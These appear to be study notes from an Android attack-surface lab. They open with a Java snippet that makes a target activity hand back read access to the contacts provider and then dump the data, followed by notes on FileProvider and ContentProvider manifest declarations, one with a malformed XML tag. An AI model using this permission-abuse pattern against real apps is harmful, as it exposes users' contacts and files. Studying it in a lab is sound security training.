 ```java
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);

        TextView textView = findViewById(R.id.text);
        Intent intent = new Intent("");
        intent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag8Activity");
        intent.setData(Uri.parse("content://com.android.contacts/raw_contacts"));
        intent.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
        startActivityForResult(intent, 1);
    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        TextView textView = findViewById(R.id.text);
        Uri uri = data.getData();

        try {
            Cursor cursor = getContentResolver().query(uri, null, null, null, null);
            textView.setText(DatabaseUtils.dumpCursorToString(cursor));
        } catch (Exception e) {
            textView.setText(e.toString());
        }

    }
```

# FileProvider
there is 2 types the `androidx.core.content.FileProvider` and `android.content.ContentProvider` 
- **androidx.core.content.FileProvider**
  - A ready-made subclass of ContentProvider provided by the AndroidX library.
  - You don’t override ParcelFileDescriptor yourself — it’s already implemented for you.
  - Designed for the “share a file via URI” use case (like sending an image to another app).
  - Instead of writing custom provider code, you just configure it in AndroidManifest.xml with <provider> and point it to specific directories (<paths> XML).
- `android.content.ContentProvider` which override the ParcelFileDescriptor
  - The base class in the Android framework.
  - Lets you expose structured data (files) to other apps.
  - Has multiple openFile() variants you can override, including one that returns a ParcelFileDescriptor.

## Declration
### androidx.core.content.FileProvider
- AndroidManifest 
```
        <provider
            android:name="androidx.core.content.FileProvider"
            android:exported="true"
            android:authorities="io.hextree.files"
            <meta-data
                android:name="android.support.FILE_PROVIDER_PATHS"
                android:resource="@xml/filepaths"/>
        </provider>

```
- file provider dynamic access 
```
        <provider
            android:name="androidx.core.content.FileProvider"
            android:exported="false"
            android:authorities="io.hextree.files"
```